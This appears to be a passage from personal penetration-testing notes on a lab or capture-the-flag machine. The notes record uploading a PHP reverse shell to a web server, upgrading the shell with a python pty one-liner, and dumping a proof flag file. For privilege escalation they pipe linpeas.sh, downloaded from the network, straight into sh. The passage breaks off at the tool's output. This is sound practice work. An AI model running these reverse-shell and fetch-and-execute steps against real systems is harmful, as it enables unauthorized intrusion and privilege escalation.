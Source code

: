 ![[Pasted image 20231113005008.png]]

  

Adding a php reverse shell

https://revshells.com

  

Pentest Monkey's PHP shell seems to be reliable

  

<details></details>

  

Uploaded and navigated to http://192.168.184.132/revshell.php

![[Pasted image 20231113005435.png]]

  

Upgrade Shell

```sh

python3 -c 'import pty; pty.spawn("/bin/bash")'

```

  

## Initial Access

  

For non-privileged access proof dump

```sh

echo " "; echo "local:"; find / -type f -name "local.txt" 2>/dev/null | xargs cat 2>/dev/null;

```

local:

1356bca238c2802f66acba895bd1896a

  

## Priv Esc

  

Run Linpeas

```sh

curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

```

╔══════════╣ Users with console
